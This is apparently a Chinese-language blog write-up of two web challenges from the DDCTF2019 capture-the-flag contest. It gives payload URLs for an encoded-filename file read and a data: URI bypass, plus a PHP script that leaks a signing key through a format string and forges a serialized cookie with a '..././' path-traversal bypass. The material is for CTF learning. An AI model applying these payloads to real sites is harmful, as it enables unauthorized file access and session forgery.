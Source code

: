 ```yaml
---
title: DDCTF2019 Writeup
date: 2019-04-25 00:17:49
tags: [writeup, ddctf]
---
```


历时 N 天, 滴滴终于审完了 Writeup, 终于可以发 wp 了, 我从 33 名到 16 名, 太真实了...  
部分题目质量还是不错的 \_(:з」∠)\_, 因为要交上去, 所以就没截图了, 凑合看吧 (逃  



# Web

## 滴~
`http://117.51.150.246/index.php?jpg=TmpZMlF6WXhOamN5UlRaQk56QTJOdz09` 中 `TmpZMlF6WXhOamN5UlRaQk56QTJOdz09`  
可以看出来是双层 base64 + 一层 base16, 解码得到 flag.jpg, 那么可以得到 index.php 就是 `TmprMlJUWTBOalUzT0RKRk56QTJPRGN3`,  
就可以直接读源码了, 然而并没有 flag, 也不能读 config.php,  
跟着注释中的网址 `https://blog.csdn.net/FengBanLiuYun/article/details/80616607` 可以在同作者底下找到 vim 学习记录, 找到 `.practice.txt.swp` 但是直接访问 404...,  
各种姿势尝试发现是 `practice.txt.swp`... 有毒, 得到 `f1ag!ddctf.php` 的提示, 用 `f1agconfigddctf.php` 绕过, 得到源码,  
用 `f1ag!ddctf.php?k=data:,123&uid=123` 即可绕过, 得到 flag.

## WEB 签到题
在 `/js/index.js` 找到验证逻辑, 通过 `didictf_username` 的 `header` 来验证, 随便试了个 `admin` 就通过了,  
得到下一步地址 `/app/fL2XID2i0Cdh.php`,  
```php
if(!empty($_POST["nickname"])) {
    $arr = array($_POST["nickname"],$this->eancrykey);
    $data = "Welcome my friend %s";
    foreach ($arr as $k => $v) {
        $data = sprintf($data,$v);
    }
    parent::response($data,"Welcome");
}
```
让 nickname 为 %s 就可以拿到 key, 通过双写绕过替换. 然后构造 Cookie 反序列化就可以了, 脚本如下  
```php
<?php
Class Application {
// ... 省略
}

$a = new Application();
$a->path = "..././config/flag.txt";
$s = serialize($a);
$key = "EzblrbNS";
$s .= md5($key . $s);
echo $s; // O:11:"Application":1:{s:4:"path";s:21:"..././config/flag.txt";}5a014dbe49334e6dbb7326046950bee2
```
把 `ddctf_id` 的值改成这个访问下就拿到 flag 了.
